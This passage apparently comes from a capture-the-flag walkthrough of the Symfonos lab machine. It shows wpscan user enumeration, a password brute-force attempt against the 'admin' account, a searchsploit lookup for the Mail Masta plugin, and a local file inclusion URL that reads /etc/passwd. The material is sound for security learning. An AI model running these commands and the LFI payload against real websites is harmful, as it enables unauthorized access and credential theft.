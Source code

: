 **Enumerate Users:**

Use wpscan to enumerate users:

```
crazyeights@es-base:~$ wpscan --url http://symfonos.local/h3l105/ -e u
```

There is only 1 user:

```
[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://symfonos.local/h3l105/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

**Crack admin password:**

Tried various wordlists couldn't get it

```
crazyeights@es-base:~$ wpscan --url http://symfonos.local/h3l105/ --passwords lists/rockyou-40.txt --usernames admin
```

### Plugin Exploits:

*   Looking for unauthenticated wordpress exploits

*   There is two plugins (in wpscan output):

*   mail-masta version 1

*   site-editor version 1.1.1

**Use searchsploit to identify exploits:**

```
crazyeights@es-base:~$ searchsploit wordpress mail

WordPress Plugin Mail Masta 1.0 - Local File Inclusion                                    | php/webapps/40290.txt
WordPress Plugin Mail Masta 1.0 - SQL Injection                                           | php/webapps/41438.txt
```

There are two exploits. Trying the LFI exploit:

```
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

![](/assets/images/21/s3.png)
